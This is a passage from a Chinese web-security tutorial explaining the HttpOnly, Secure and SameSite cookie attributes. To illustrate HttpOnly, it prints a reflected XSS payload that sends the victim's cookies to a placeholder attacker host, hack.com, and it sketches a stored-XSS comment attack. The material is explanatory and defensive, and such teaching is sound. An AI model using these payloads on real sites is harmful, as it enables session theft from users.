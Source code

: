```javascript
}
```
#### 3. HttpOnly
**HttpOnly 要求浏览器不要通过 HTTP（和HTTPS）以外的渠道使用 Cookie，也就是说只能通过 Http 的响应头里进行Set-Cookie , 用户无法在 js 代码中去操作与读取该 Cookie。这个属性主要是用来缓解 XSS 攻击的。**
![1713766939726](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1713766939726.png)

> **我们可以看下面两个例子**

>  - **反射型 XSS 窃取 Cookie**

>  反射型 XSS 攻击指攻击者在页面中插入恶意 JavaScript 脚本，该脚本随着 HTTP/HTTPS 请求数据一起发送给后端服务器，服务器对其进行响应，浏览器接收响应后将其解析渲染。恶意脚本的执行路径为“浏览器-服务器-浏览器”。浏览器中的恶意脚本发送到服务器，服务器直接对应资源返回浏览器中解析执行，整个过程类似于反射。

假设我们在百度上搜索内容，就会跳转以下页面。
```javascript
https://www.baidu.com/search?input=searchText
```
之后返回的页面中会携带下面的内容
```javascript
<p>以下是搜索{searchText}的所有结果</p>
```
这时我将searchText 改为如下的字符串
```javascript
<img src="notfound.png" onerror="location.href='http://hack.com/?cookie='+document.cookie'">
```
接着我再把整个链接进行转码或者转短链接化，发送给用户，用户点击后在 baidu 上的 Cookie 就会比自动发送到我们的 hack 服务器内。

>  - **反射型 XSS 窃取 Cookie**

>  存储型 XSS 攻击指攻击者在服务器的数据库中插入恶意 JavaScript 脚本，当用户访问网站时，恶意脚本被发送到浏览器进行解析执行。

最经典的一个评论区案例

我在某网站的评论区直接输入一串JS代码
![1713766962912](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1713766962912.png)
**如果前端与后端均没有对其进行过滤，那么该评论被写入到数据库中，所有访问该页面的用户信息都会被窃取。**

但目前 XSS 攻击并没有那么容易成功，大部分前端框架 React、 Vue，**都会自动对 HTML 内容进行转义后再输出到页面**，比如：
```javascript
<img src="empty.png" onerror ="alert('xss')">
```
转义后输出到 html 中
```javascript
&lt;img src=&quot;empty.png&quot; onerror =&quot;alert(&#x27;xss&#x27;)&quot;&gt;
```
相比之下，采用服务器端渲染的Web应用更容易被攻击，如jsp、 php、 express-art-tempalte 。

> 因此，**采用HttpOnly来保护关键的用户Cookie 是能很大程度上防止Cookie被窃取，但并非完全杜绝。**
#### 4. Secure
> Secure 属性是防止信息在传递的过程中被监听捕获造成信息泄漏。**当 Secure 标志的值被设置为 true 时，表示创建的 Cookie 会被以安全的形式向服务器传输，即只能在 HTTPS 连接中被浏览器传递到服务器端进行会话验证**，如果是 HTTP 连接则不会传递该信息，所以 Cookie 的具体内容不会被盗取，**该属性只能在 HTTPS 站点下被设置。**
> ![1713766983516](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1713766983516.png)
#### 5. SameSite
> Same Site 直译过来就是同站，它和我们之前说的同域 Same Origin 是不同的。**Cookie 遵守同站策略**，**而非同源策略**，两者的区别主要在于判断的标准是不一样的。
> ![1713767002667](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1713767002667.png)
> ![1713767022272](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1713767022272.png)
